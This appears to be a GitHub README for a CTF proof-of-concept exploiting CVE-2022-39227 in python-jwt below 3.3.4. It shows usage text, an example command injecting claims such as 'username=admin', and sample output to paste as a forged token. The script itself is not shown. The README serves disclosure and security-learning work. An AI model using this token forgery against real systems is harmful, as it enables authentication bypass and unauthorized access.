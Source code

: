 # CVE-2022-39227
CVE-2022-39227 : Proof of Concept 

Proof of concept for the [CVE-2022-39227](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-39227). According to this CVE, there is a flaw in the JSON Web Token verification. It is possible with a valid token to re-use its signature with modified claims. 

Required:
1. A valid JWT Web Token.
2. The backend need to use the python library "python-jwt" in the version < 3.3.4

For the ease of use I wrote a simple PoC during a CTF:
``` 
usage: CVE-2022-39227-PoC [-h] -j TOKEN -i CLAIM

Proof of Concept for the JWT verification bug in python-jwt version < 3.3.4

options:
  -h, --help            show this help message and exit
  -j TOKEN, --jwt_token TOKEN
                        Original and valid JWT Token returned by the application
  -i CLAIM, --injected_claim CLAIM
                        Inject claim using the form "key=value", e.g. "username=admin". Use "," for more claims
                        (e.g. username=admin,id=3)
```
Usage:

`python3 cve_2022_39227.py -j <JWT-WEBTOKEN> -i "<KEY>=<VALUE>"`

Returns:
```
{"  <SNIP>":"","protected":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"<SNIP>","signature":"18-caQyY-mnreIUb53kk5qI-axRoxSzQKyT033yOdUw"}
```
The return value is a mix form of JSON and compact representation. You need to paste the entire value including "{" and "}" as your new JWT Web token.
